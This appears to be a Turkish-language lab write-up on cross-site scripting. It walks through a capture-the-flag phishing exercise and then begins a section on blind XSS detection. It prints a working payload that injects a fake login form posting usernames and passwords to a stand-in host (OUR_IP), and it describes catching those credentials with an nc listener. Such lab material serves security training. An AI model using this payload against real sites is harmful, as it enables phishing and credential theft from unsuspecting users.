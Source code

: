 Soru : Yukarıdaki sunucuda '/phishing' adresinde bulunan Görüntü URL formu için çalışan bir XSS payload'u bulmaya çalışın ve ardından bu bölümde öğrendiklerinizi kullanarak kötü niyetli bir giriş formu enjekte eden kötü niyetli bir URL hazırlayın. Ardından URL'yi kurbana göndermek için '/phishing/send.php' adresini ziyaret edin ve kurban kötü amaçlı oturum açma formuna giriş yapacaktır. Her şeyi doğru yaptıysanız, '/phishing/login.php' adresine giriş yapmak ve bayrağı elde etmek için kullanabileceğiniz kurbanın giriş kimlik bilgilerini almalısınız.

Cevap : 


1- Öncelikle /phishing sayfasına git ve şu isteği at . (İp'ni yaz)

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

2- sonra url'yi tamamen kopyala /phishing/send.php sayfasında girdiye yaz fakat enter'a basmadan önce nc ile 80 portunu dinle . 

![Pasted image 20241116061126.png](/img/user/resimler/Pasted%20image%2020241116061126.png)
3- verilen bilgiler doğrultusunda /phsing/login.php sayfasına git bayrağı al 

![Pasted image 20241116061249.png](/img/user/resimler/Pasted%20image%2020241116061249.png)


# Session Hijacking

### Blind XSS Algılama

 Blind XSS güvenlik açığı, güvenlik açığı erişimimiz olmayan bir sayfada tetiklendiğinde ortaya çıkar.
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

![Pasted image 20241117014510.png](/img/user/resimler/Pasted%20image%2020241117014510.png)

Gördüğümüz gibi, formu gönderdikten sonra aşağıdaki mesajı alıyoruz:

![Pasted image 20241117014516.png](/img/user/resimler/Pasted%20image%2020241117014516.png)

Bu, girdimizin nasıl işleneceğini veya tarayıcıda nasıl görüneceğini göremeyeceğimizi gösterir, çünkü Yönetici için yalnızca erişimimiz olmayan belirli bir Yönetici Panelinde görünecektir. Normal (yani kör olmayan) durumlarda, modül boyunca yaptığımız gibi bir uyarı kutusu alana kadar her alanı test edebiliriz.

Bunu yapmak için, önceki bölümde kullandığımız aynı hileyi kullanabiliriz, yani sunucumuza bir HTTP isteği gönderen bir JavaScript payload'u kullanabiliriz. JavaScript kodu çalıştırılırsa, makinemizde bir yanıt alırız ve sayfanın gerçekten savunmasız olduğunu biliriz.
